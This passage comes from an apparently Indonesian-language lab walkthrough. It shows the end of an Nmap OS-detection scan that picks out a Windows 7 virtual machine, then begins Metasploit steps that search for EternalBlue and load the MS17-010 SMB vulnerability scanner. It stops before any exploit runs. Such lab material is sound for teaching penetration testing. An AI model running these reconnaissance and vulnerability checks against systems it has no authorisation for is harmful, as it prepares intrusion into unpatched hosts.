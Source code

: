    49154/tcp open  unknown
   49155/tcp open  unknown
   49156/tcp open  unknown
   49157/tcp open  unknown
   MAC Address: 08:00:27:96:ED:55 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
   Device type: general purpose
   Running: Microsoft Windows 2008|7|Vista|8.1
   OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
   OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
   Network Distance: 1 hop

   Nmap scan report for 192.168.1.42
   Host is up (0.000057s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT   STATE SERVICE
   22/tcp open  ssh
   80/tcp open  http
   Device type: general purpose
   Running: Linux 2.6.X|5.X
   OS CPE: cpe:/o:linux:linux_kernel:2.6.32 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6
   OS details: Linux 2.6.32, Linux 5.0 - 6.2
   Network Distance: 0 hops

   OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 4 IP addresses (2 hosts up) scanned in 5.81 seconds
   ```

   Dari hasil scan `Nmap` tersebut, ditemukan IP Address yang menggunakan sistem operasi Windows 7 yakni: `192.168.1.45`.

### 3. Cek Apakah Target Rentan atau Tidak

**Langkah:**

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Cari Modul EternalBlue:

   ```
   search EternalBlue
   ```

3. Gunakan Modul `auxiliary/scanner/smb/smb_ms17_010` Untuk Mencari Tahu Apakah Target Rentan atau Tidak:

   ```
   use auxiliary/scanner/smb/smb_ms17_010
   ```

4. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

   Hasil output-nya seperti ini:

   ```
   msf6 auxiliary(scanner/smb/smb_ms17_010) > show options 
